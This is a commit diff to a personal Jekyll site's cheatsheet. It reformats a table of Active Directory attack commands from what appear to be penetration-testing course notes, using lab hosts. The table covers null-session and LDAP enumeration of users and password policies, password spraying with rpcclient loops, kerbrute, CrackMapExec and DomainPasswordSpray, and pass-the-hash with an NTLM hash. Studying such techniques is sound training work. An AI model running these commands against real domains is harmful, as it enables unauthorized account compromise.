

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1974 px. Shown: the whole window at 90% size, without its empty margins (110-1157 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update Cheatsheet.md

````diff
--- a/Cheatsheet.md
+++ b/Cheatsheet.md
@@ -18,27 +18,27 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-| crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol | Used CrackMapExecand valid credentials (avazquez:Password123) to enumerate the password policy (--pass-pol) from a Linux-based host. |
-| rpcclient -U "" -N 172.16.5.5                              | Uses rpcclient to discover information about the domain through SMB NULL sessions. Performed from a Linux-based host. |
-| rpcclient $> querydominfo                                  | Uses rpcclient to enumerate the password policy in a target Windows domain from a Linux-based host.|
-| enum4linux  -P 172.16.5.5                                  | Uses enum4linux to enumerate the password policy (-P) in a target Windows domain from a Linux-based host. |
-| enum4linux-ng -P 172.16.5.5 -oA ilfreight                  | Uses enum4linux-ng to enumerate the password policy (-P) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the -oA option. |
-| ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength  Uses ldapsearch to enumerate the password policy in a  target Windows domain from a Linux-based host. |
-| net accounts                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
-| Import-Module .\PowerView.ps1                              | Uses the Import-Module cmd-let to import the PowerView.ps1 tool from a Windows-based host. |
-| Get-DomainPolicy                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
-| enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]" | Uses enum4linux to discover user accounts in a target Windows domain, then leverages grep to filter the output to just display the user from a Linux-based host. |
-| rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
-| crackmapexec smb 172.16.5.5 --users                        | Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host. |
-| ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" " | Uses ldapsearch to discover users in a target Windows doman, then filters the output using grep to show only the sAMAccountName from a Linux-based host. |
-| ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U              | Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host. |
-| for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done | Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
-| kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1 | Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
-| sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep + | Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep. |
-|  sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123 | Uses CrackMapExec to validate a set of credentials from a Linux-based host. |
-| sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep + | Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep. |
-| Import-Module .\DomainPasswordSpray.ps1                    | Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host. |
-| Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host. |
+| ```crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol``` | Used ```CrackMapExec```and valid credentials (```avazquez:Password123```) to enumerate the password policy (```--pass-pol```) from a Linux-based host. |
+| ```rpcclient -U "" -N 172.16.5.5```                              | Uses ```rpcclient``` to discover information about the domain through ```SMB NULL``` sessions. Performed from a Linux-based host. |
+| ```rpcclient $> querydominfo```                                  | Uses ```rpcclient``` to enumerate the password policy in a target Windows domain from a Linux-based host.|
+| ```enum4linux  -P 172.16.5.5```                                  | Uses ```enum4linux``` to enumerate the password policy (```-P```) in a target Windows domain from a Linux-based host. |
+| ```enum4linux-ng -P 172.16.5.5 -oA ilfreight```                  | Uses ```enum4linux-ng``` to enumerate the password policy (```-P```) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the ```-oA``` option. |
+| ```ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength``` | Uses ```ldapsearch``` to enumerate the password policy in a  target Windows domain from a Linux-based host. |
+| ```net accounts```                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
+| ```Import-Module .\PowerView.ps1```                              | Uses the Import-Module cmd-let to import the ```PowerView.ps1``` tool from a Windows-based host. |
+| ```Get-DomainPolicy```                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
+| ```enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"``` | Uses ```enum4linux``` to discover user accounts in a target Windows domain, then leverages ```grep``` to filter the output to just display the user from a Linux-based host. |
+| ```rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser```    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
+| ```crackmapexec smb 172.16.5.5 --users```                        | Uses ```CrackMapExec``` to discover users (```--users```) in a target Windows domain from a Linux-based host. |
+| ```ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" "``` | Uses ```ldapsearch``` to discover users in a target Windows doman, then filters the output using ```grep``` to show only the ```sAMAccountName``` from a Linux-based host. |
+| ```./windapsearch.py --dc-ip 172.16.5.5 -u "" -U```              | Uses the python tool ```windapsearch.py``` to discover users in a target Windows domain from a Linux-based host. |
+| ```for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done``` | Bash one-liner used to perform a password spraying attack using ```rpcclient``` and a list of users (```valid_users.txt```) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
+| ```kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1``` | Uses ```kerbrute``` and a list of users (```valid_users.txt```) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
+| ```sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +``` | Uses ```CrackMapExec``` and a list of users (```valid_users.txt```) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using ```grep```. |
+| ``` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123``` | Uses ```CrackMapExec``` to validate a set of credentials from a Linux-based host. |
+| ```sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +``` | Uses ```CrackMapExec``` and the -```-local-auth``` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using ```grep```. |
+| ```Import-Module .\DomainPasswordSpray.ps1```                    | Used to import the PowerShell-based tool ```DomainPasswordSpray.ps1``` from a Windows-based host. |
+| ```Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue``` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (```spray_success```) from a Windows-based host. |
 
 
 # Credentialed Enumeration
````
